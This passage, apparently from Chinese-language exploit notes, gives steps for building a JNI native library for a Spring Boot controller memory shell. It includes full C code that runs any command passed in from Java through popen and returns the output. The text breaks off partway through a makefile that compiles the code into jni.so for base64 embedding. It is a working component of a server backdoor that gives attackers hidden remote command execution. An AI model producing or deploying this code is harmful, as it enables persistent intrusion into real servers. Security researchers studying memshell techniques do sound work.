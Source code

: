 接着就是常规的步骤：
1. 使用 javac 进行编译
2. 使用 javah 生成 .h 文件
3. 编写 c 代码。示例如下：
    ```cpp
    #include<jni.h>
    #include<stdio.h>
    #include<cstdlib>
    #include<cstring>
    #include "xyz_eki_marshalexp_memshell_SpringBoot_Controller_SpringControllerJNIMemshell.h"

    int execmd(const char *cmd, char *result)
    {
        char buffer[1024*12];              //定义缓冲区
        FILE *pipe = popen(cmd, "r"); //打开管道，并执行命令
        if (!pipe)
            return 0; //返回0表示运行失败

        while (!feof(pipe))
        {
            if (fgets(buffer, 256, pipe))
            { //将管道输出到result中
                strcat(result, buffer);
            }
        }
        pclose(pipe); //关闭管道
        return 1;      //返回1表示运行成功
    }


    JNIEXPORT jstring JNICALL Java_xyz_eki_marshalexp_memshell_SpringBoot_Controller_SpringControllerJNIMemshell_doExec(JNIEnv *env, jobject thisObj,jstring jstr) {
        const char *cstr = env->GetStringUTFChars(jstr, NULL);
        char result[1024 * 12] = ""; //定义存放结果的字符串数组
        if (1 == execmd(cstr, result))
        {
            // printf(result);
        }

        char return_messge[256] = "";
        strcat(return_messge, result);
        jstring cmdresult = env->NewStringUTF(return_messge);
        //system();

        return cmdresult;
    }

    JNIEXPORT jint JNICALL JNI_OnLoad(JavaVM* vm, void* reserved){
        return JNI_VERSION_1_4; //这里很重要，必须返回版本，否则加载会失败。
    }
    ```
4. 编译并获取 base64 编码内容.
    ```makefile
    OBJ = SpringControllerJNIMemshell.cpp
    CFLAGS = -shared -fPIC
    CC = gcc
    TARGET = jni.so
